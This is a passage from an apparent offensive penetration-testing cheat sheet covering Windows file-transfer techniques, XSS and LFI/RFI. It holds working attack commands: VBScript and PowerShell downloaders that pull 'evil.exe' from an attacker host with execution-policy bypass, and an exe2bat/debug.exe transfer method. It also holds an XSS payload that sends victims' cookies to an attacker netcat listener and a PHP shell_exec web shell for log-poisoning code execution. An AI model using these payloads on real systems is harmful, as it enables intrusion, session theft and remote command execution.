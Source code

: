 	echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs &

	echo strData = "" >> wget.vbs &

	echo strBuffer = "" >> wget.vbs &

	echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs &

	echo ts.Write Chr(255 And Ascb(Midb(varByteArray, lngCounter +1, 1))) >> wget.vbs &

	echo Next >> wget.vbs &

	echo ts.Close >> wget.vbs

	cscript wget.vbs http://<[IP]>/<[FILE]> <[FILE_NAME]>

<b>Powershell</b> (In Windows 7, 2008 and above)

On victim machine shell:

	echo $storageDir = $pwd > wget.ps1

	echo $webclient = New-Object System.Net.WebClient >> wget.ps1

	echo $url = "http://<[IP]>/<[FILE]>" >> wget.ps1

	echo $file = "evil.exe" >> wget.ps1

	echo $webclient.DownloadFile($url,$file) >> wget.ps1

	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

<b>Debug.exe utility</b> (In Windows 32bit OS - Works only for file < 64Kb)

On attacker machine:

	cp <[FILE]> .

	upx -9 <[FILE]> (for compression)

	cp /usr/share/windows-binaries/exe2bat.exe .

	wine exe2bat <[FILE]> <[FILE.txt]>

On victim machine:

	Paste the content of <[FILE.txt]>

# XSS

<b>Stole cookie from xss:</b>

	On attacker machine set listener (nc -nlvp <[PORT]>)

	On victim website <script>new Image().src="http://<[IP]>:<[PORT]>/test.php?output="+document.cookie;</script>

# LFI/RFI

	Connect via netcat to victim (nc -nv <[IP]> <[PORT]>) and send <?php echo shell_exec($_GET['cmd']);?>, after that try to include log file for code execution.
